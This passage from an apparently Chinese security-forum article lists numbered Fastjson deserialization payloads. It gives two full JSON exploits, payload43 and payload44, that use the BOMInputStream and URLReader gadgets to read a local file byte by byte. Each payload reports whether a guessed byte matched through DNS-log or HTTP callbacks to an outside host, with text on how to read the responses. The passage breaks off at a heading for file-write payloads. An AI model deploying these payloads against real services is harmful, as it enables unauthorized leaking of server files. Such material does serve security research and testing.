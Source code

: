 ### 4.2.2 blackhat2021-getBom()浅蓝师傅改版（几乎适配所有场景）

`payload43`：

```json
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String"{"$ref":"$.abc.BOM[0]"},"start":0,"end":0},"xxx":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://testhhh.okdplvnqdu.dgrh3.cn/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[1]}]},"zzz":{"$ref":"$.xxx.BOM[0]"}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b5940787f58abadab082bf3fff6028cc2466b971.png)

极端场景：有一个接口，用`fastjson`解析了`json`，但不会反馈任何能够作为状态判断的标识，连异常报错的信息都没有。

那么此时该`payload`就可以派上用场了，**如果以上`poc`收到了`dnslog`响应，那么说明字节码比对失败**，也就是第一个字节的`int`值不等于我们填入的那个数字（比如这里的`98`，此时我们就得更改数字继续测试）；如果没收到，说明比对成功，继续测试即可。

### 4.2.3 blackhat2021-getBom() tyskill师傅改版（几乎适配所有场景）

`payload44`：

```json
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98,]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://192.168.161.4:8085/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"$ref":"$.abc.BOM[0]"}]},"xxx":{"$ref":"$.address.BOM[0]"}}
```

该`payload`是浅蓝师傅的`payload`的改版，主要区别在于这个是`dnslog`或者`http`服务有响应说明字节码比对成功，和浅蓝的那个是反着来的。

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-081de37a372dd4561e6a48112823a7238d79b7ed.png)

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4fa043cf8c53e7bacc27dd6f9b33e4a52494de80.png)

五、文件写入
======

5.1 commons-io 2.x（1.2.37&lt;=version&lt;=1.2.68）
-------------------------------------------------

### 5.1.1 最初公开的payload（只能在centos下利用）

`payload45`：
